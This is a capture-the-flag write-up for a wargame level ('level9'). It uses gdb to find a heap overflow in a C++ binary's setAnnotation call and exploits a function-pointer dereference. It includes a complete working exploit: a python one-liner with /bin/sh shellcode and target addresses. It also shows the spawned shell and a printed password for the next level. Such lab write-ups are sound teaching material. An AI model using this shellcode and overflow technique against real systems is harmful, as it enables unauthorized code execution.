 When disassembling with gdb:
```
...
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc> // SetAnnotation() is called with argv[1]
0x0804867c <+136>:	mov    0x10(%esp),%eax
0x08048680 <+140>:	mov    (%eax),%eax
0x08048682 <+142>:	mov    (%eax),%edx
...
0x08048693 <+159>:	call   *%edx
...
```

We try an overflow to see what happens:
```
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x41366441	1094083649
ecx            0x67413567	1732326759
edx            0x804a0d4	134521044
ebx            0x804a078	134520952
esp            0xbffff640	0xbffff640
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0x8048682	0x8048682 <main+142>
```

We couldn't overwrite eip but we overwrote eax, and the code does something with eax later on
It deferences it twice, places the content in edx and then calls edx

We can write a payload that will make its way to a malicious payload this way:
[shellcode_address] [shellcode] [padding to +108] [start address of this payload]

We get the address of our payload:
```
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/user/level9/level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804867c in main ()
(gdb) x/s $eax
0x804a00c:	 'A' <repeats 46 times>
```

It's 0x0804a00c !

```
./level9 $(python -c "print '\x08\x04\xa0\x10'[::-1] + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A'*83 + '\x08\x04\xa0\x0c'[::-1]")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```